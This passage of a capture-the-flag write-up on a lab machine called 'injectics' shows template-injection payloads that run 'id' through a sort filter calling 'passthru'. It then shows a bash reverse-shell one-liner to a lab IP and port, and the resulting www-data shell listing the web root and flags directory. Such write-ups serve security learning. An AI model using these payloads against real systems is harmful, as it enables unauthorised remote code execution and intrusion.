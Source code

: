 This means that the template engine we are dealing with is `jinja2`, based on that, we can achieve `rce` by doing:

```jinja2
{{['id',""]|sort('passthru')}}
```

![Pasted image 20250506143705.png](../../IMAGES/Pasted%20image%2020250506143705.png)

As seen we can achieve `rce`, let's send a reverse shell using:

```jinja2
{{["bash -c 'exec bash -i >& /dev/tcp/10.11.136.34/9001 0>&1'",""]|sort('passthru')}}
```

If we check our listener:

![Pasted image 20250506144244.png](../../IMAGES/Pasted%20image%2020250506144244.png)

```
www-data@injectics:/var/www/html$ ls -la
ls -la
total 548
drwxr-xr-x 6 ubuntu ubuntu 4096 Jul 31 2024 .
drwxr-xr-x 3 root root 4096 Jul 19 2024 ..
-rw-rw-r-- 1 ubuntu ubuntu 1024 Jul 31 2024 .conn.php.swp
-rw-r--r-- 1 ubuntu ubuntu 121 Jul 31 2024 .htaccess
-rw-rw-r-- 1 ubuntu ubuntu 7370 Jul 23 2024 adminLogin007.php
-rw-r--r-- 1 ubuntu ubuntu 433129 Jul 18 2024 banner.jpg
-rw-r--r-- 1 ubuntu ubuntu 48 Jul 17 2024 composer.json
-rw-r--r-- 1 ubuntu ubuntu 8723 Jul 17 2024 composer.lock
-rw-r--r-- 1 ubuntu ubuntu 2867 Jul 31 2024 conn.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul 18 2024 css
-rw-r--r-- 1 ubuntu ubuntu 7499 Jul 23 2024 dashboard.php
-rw-rw-r-- 1 ubuntu ubuntu 7227 Jul 23 2024 edit_leaderboard.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul 18 2024 flags
-rw-r--r-- 1 ubuntu ubuntu 2101 Jul 22 2024 functions.php
-rw-r--r-- 1 ubuntu ubuntu 6083 Jul 23 2024 index.php
-rwxrwxr-x 1 ubuntu ubuntu 3947 Jul 23 2024 injecticsService.php
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul 18 2024 js
-rw-r--r-- 1 ubuntu ubuntu 5538 Jul 23 2024 login.php
-rw-r--r-- 1 ubuntu ubuntu 99 Jun 16 2024 logout.php
-rw-rw-r-- 1 ubuntu ubuntu 1098 Jul 23 2024 mail.log
-rw-r--r-- 1 ubuntu ubuntu 1088 Jul 23 2024 script.js
-rw-r--r-- 1 ubuntu ubuntu 1432 May 16 2023 styles.css
-rw-rw-r-- 1 ubuntu ubuntu 6786 Jul 23 2024 update_profile.php
drwxr-xr-x 6 ubuntu ubuntu 4096 Jul 17 2024 vendor
www-data@injectics:/var/www/html$ ls -la flags
ls -la flags
total 12
drwxrwxr-x 2 ubuntu ubuntu 4096 Jul 18 2024 .
drwxr-xr-x 6 ubuntu ubuntu 4096 Jul 31 2024 ..
-rw-rw-r-- 1 ubuntu ubuntu 38 Jul 18 2024 5d8af1dc14503c7e4bdc8e51a3469f48.txt
```